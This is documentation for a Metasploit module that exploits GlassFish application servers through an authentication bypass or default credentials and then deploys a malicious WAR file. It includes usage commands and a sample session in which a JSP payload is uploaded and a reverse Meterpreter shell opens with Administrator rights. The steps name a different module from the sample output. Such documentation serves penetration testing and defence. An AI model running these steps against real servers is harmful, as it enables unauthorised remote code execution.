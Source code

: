 ## Description

This module logs in to an GlassFish Server (Open Source or Commercial) using various methods (such as authentication bypass, default credentials, or user-supplied login), and deploys a malicious war file in order to get remote code execution. It has been tested on Glassfish 2.x, 3.0, 4.0 and Sun Java System Application Server 9.x. Newer GlassFish versions do not allow remote access (Secure Admin) by default, but is required for exploitation.

## GlassFish

GlassFish is an open-source application server project started by Sun Microsystems for the Java EE platform and now sponsored by Oracle Corporation. The supported version is called Oracle GlassFish Server. GlassFish is free software, dual-licensed under two free software licences: the Common Development and Distribution License (CDDL) and the GNU General Public License (GPL) with the classpath exception.

## Verification Steps

1. Do: ```use exploit/multi/http/axis2_deployer```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set USERNAME [Username]```
4. Do: ```set PASSWORD [Password]```
5. Do: ```run```

## Sample Output

```
msf > use exploit/multi/http/glassfish_deployer
msf exploit(glassfish_deployer) > set RHOST 172.16.182.237
RHOST => 172.16.182.237
msf exploit(glassfish_deployer) > set USERNAME admin
USERNAME => admin
msf exploit(glassfish_deployer) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(glassfish_deployer) > exploit
[*] Started reverse TCP handler on 172.16.182.112:4444 
[*] Glassfish edition: GlassFish Server Open Source Edition 3.0.1
[*] Trying GlassFish authentication bypass..
[+] http://172.16.182.237:4848// - GlassFish - SUCCESSFUL authentication bypass
[*] Uploading payload...
[*] Successfully uploaded
[*] Executing /icDfejbl6Vc9ZobfgVv9LIBES/SV7fVtWuTQFZqtzMPiJ.jsp...
[*] Sending stage (30355 bytes) to 172.16.182.237
[*] Meterpreter session 1 opened (172.16.182.112:4444 -> 172.16.182.237:1472) at 2017-03-27 19:07:58 -0500
[*] Getting information to undeploy...
[*] Undeploying icDfejbl6Vc9ZobfgVv9LIBES...
[*] Undeployment complete.

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : juan-6ed9db6ca8
OS          : Windows 2003 5.2 (x86)
Meterpreter : java/java
meterpreter > exit
[*] Shutting down Meterpreter...


```
